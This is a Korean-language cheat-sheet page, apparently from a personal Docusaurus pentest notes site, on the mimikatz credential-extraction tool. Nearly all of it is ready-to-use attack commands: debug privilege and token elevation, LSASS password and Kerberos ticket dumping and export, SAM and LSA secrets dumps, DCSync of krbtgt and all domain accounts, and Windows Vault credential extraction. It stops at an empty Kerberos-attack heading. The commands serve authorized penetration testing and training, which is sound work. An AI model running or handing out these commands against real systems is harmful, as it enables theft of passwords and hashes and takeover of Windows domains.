

repository: naaamgi/my-docusaurus-page · page: cheatsheet/password-attacks/mimikatz/index.html · generator: docusaurus

---
sidebar_position: 5
---

# mimikatz

> https://github.com/gentilkiwi/mimikatz

Windows 자격증명 추출 도구입니다.

## 다운로드

```
https://github.com/gentilkiwi/mimikatz/releases
```

## 기본 실행

```cmd
.\mimikatz.exe
```

## 권한 상승

```cmd
# 관리자 권한으로 실행 후
privilege::debug
token::elevate
```

## 일반 명령어

### 자격증명 덤프

```cmd
# LSASS에서 자격증명 추출
sekurlsa::logonpasswords

# 모든 자격증명
sekurlsa::logonpasswords full

# Kerberos 티켓
sekurlsa::tickets

# Kerberos 티켓 내보내기
sekurlsa::tickets /export
```

### SAM 데이터베이스

```cmd
# SAM 해시 덤프
lsadump::sam

# 로컬 SAM
lsadump::sam /system:C:\Windows\System32\config\SYSTEM /sam:C:\Windows\System32\config\SAM
```

### LSA Secrets

```cmd
lsadump::secrets
lsadump::cache
```

### NTDS.dit (Domain Controller)

```cmd
# DCSync 공격
lsadump::dcsync /user:Administrator
lsadump::dcsync /user:<DOMAIN>\krbtgt
lsadump::dcsync /domain:<DOMAIN> /all /csv

# 특정 사용자
lsadump::dcsync /user:<DOMAIN>\<USERNAME> /domain:<DOMAIN>
```

## Vault (Windows Vault)

```cmd
vault::list
vault::cred
vault::cred /patch
```

## Kerberos 공격
